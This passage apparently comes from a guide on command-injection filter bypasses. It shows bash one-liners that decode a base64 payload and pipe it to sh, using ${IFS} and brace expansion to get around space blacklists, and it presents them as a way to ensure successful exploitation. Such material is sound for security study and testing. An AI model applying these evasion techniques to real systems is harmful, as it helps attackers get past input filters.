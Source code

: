 ### Payload Obfuscation

**Multi-Layer Encoding:**
```bash
# Double encoding
echo cHdkCg== | base64 -d | sh

# Mixed methods
{echo,${IFS},cHdkCg==}|base64${IFS}-d|sh
```

This comprehensive guide to space filter bypasses provides multiple reliable methods for maintaining command injection capabilities even when space characters are blacklisted, ensuring successful exploitation across various filtering scenarios. 
